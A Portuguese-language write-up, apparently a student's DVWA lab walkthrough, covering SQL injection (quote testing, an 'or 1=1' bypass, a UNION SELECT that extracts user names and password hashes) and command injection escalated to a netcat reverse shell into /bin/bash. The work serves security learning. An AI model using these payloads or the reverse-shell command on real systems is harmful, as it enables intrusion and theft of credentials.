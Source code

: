 ## SQL Injection
Para entender como a aplicação reage, abri ela no burp suite. 
![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/07160079-d0b3-4b28-8d29-716c2007c600)

Adicionando um `'` (aspas simples) para observar o comportamento da aplicação.
```
id=1'&Submit=Submit
```
![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/ee05e500-82bd-4ff9-9a58-b56884bb48a2)

Isso significa que a aplicação é vulnerável a SQL Injection, visto que quando o usuário insere uma aspa simples, ela dá erro, significando que o tratamento da entrada do usuário não é realizado. 
Para tentar entender o que estava acontencendo, tentei mais um teste comum.
```
id=1'or 1'='1&Submit=Submit
```
![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/3ba1491f-624c-4858-bfc2-534401d6327a)
kali
Na mensagem de erro é possível observar que a cada aspas simples (`'`) inserida é adicionado um contrabarra. Pesquisando e lendo nos artigos *more information*, descobri que isso ocorre, pois é utilizado a função `mysqli_real_escape_string();` que visa prevenir injeções de código por meio de escapar de todos os caracteres especiais do SQL. Portanto, os seguintes caracteres não funcionarão: `\x00`, `\n`, `\r`, `\`, `'`, `"` e `\x1a`

Logo, tentando o teste novamente só que retirando as aspas simples temos:
```
id=1 or 1=1&Submit=Submit
```
![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/58b2ea4a-9b2f-4871-b0e3-96d4385159b9)

Para tentar ver as senhas dos usuários usei UNION attacks (uma forma de executar um SELECT adicional).

Nas minhas primeiras tentativas, tentei algo do tipo:
```
id=1 UNION SELECT password FROM users&Submit=Submit
```
Estava supondo que a tabela se chamava users. 

Mas apenas conseguia o seguinte erro:

![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/c1805638-1f7a-4924-84e7-eca300928d23)



Pesquisando, encontrei que o erro ocorre quando você realiza mais de um SELECT na mesma query e eles retornam uma quantidade diferente de colunas. Nesse caso, conseguimos deduzir que o primeiro SELECT está buscando duas colunas (name, surname). Portanto, temos que buscar duas colunas também.
```
id=1 UNION SELECT user, password FROM users&Submit=Submit
```
![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/fc16a743-8ede-4ec7-ac37-1064cb0b677b)

Aparentemente, as senhas foram armazenadas usando hash.

## Command Injection

**Objetivo:**

> Remotely, find out the user of the web service on the OS, as well as the machines hostname via RCE


Para tentar entender como funcionava a aplicação, testei um ip qualquer.

![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/00138f73-f13b-4d86-a34b-ae69a8e470a5)

Percenbendo que basicamente era executado um ping, tentei executar outro comando em sua sequência usando o operador ponto e virgula (`;`). 

![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/ed3b4796-156d-43c9-bb21-70da1bdd07ad)

E nada acontece, portanto deu errado.


Lembrei que existe outra maneira de executar um comando atrás do outro, o pipe (`|`). Teste, mesmo sabendo que o pipe depende da operação anterior estar correta, não ter sem erros nos processos anteriores e dos resultados dos processos anteriores. Normalmente, é utilizado para ter a saída do processo anterior como entrada no processo corrente. 

![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/eadf4f44-3bb4-4d22-9eb1-c92419ebaf9f)

Deu certo. 

Com isso dando certo, tentei reverse shell

No terminal, descobri o meu ip local usando ifconfig, e usei um necat para criar um servidor para ouvir `nc -lvnp 8181`

```
1.1.1.1 | nc 10.0.2.15 8181 -e /bin/bash
```
![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/fbda6cac-79b1-4814-b640-a2a8ae967e93)


Adicionei um sleep, para dar tempo de executar outros comandos. 
```
.1 | sleep 50 | nc 10.0.2.15 8181 -e /bin/bash
```

![image](https://github.com/DuPorangaba/DVWA_writeup/assets/62816035/ef78a68e-9ec7-4d46-b8b6-9c3abaa99011)
